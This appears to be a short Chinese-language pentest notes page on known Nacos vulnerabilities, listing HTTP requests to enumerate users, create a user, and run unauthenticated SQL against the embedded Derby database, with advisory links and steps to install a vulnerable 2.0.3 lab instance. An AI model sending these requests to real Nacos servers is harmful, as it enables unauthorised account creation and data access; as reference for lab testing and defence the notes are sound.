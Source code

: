 ### 查看用户
```
GET /nacos/v1/auth/users?pageNo=1&pageSize=100
```

### 创建用户
```
POST /nacos/v1/auth/users?username=test&password=test123
```

### unauth
```
/nacos/v1/cs/ops/derby?sql=select+st.tablename+from+sys.systables+st
```

> These endpoints are only valid when using embedded storage (derby DB) so this issue should not affect those installations using external storage (e.g. mysql)

- https://securitylab.github.com/advisories/GHSL-2020-325_326-nacos/
- https://www.cnblogs.com/hack404/p/14697313.html



## 安装
https://github.com/alibaba/nacos/releases/download/2.0.3/nacos-server-2.0.3.zip
```
unzip -q nacos-server-2.0.3.zip
bin/startup.sh -m standalone
```

![image](https://user-images.githubusercontent.com/30398606/173304250-3c57144d-6b7b-4291-bc31-473c07cf504b.png)
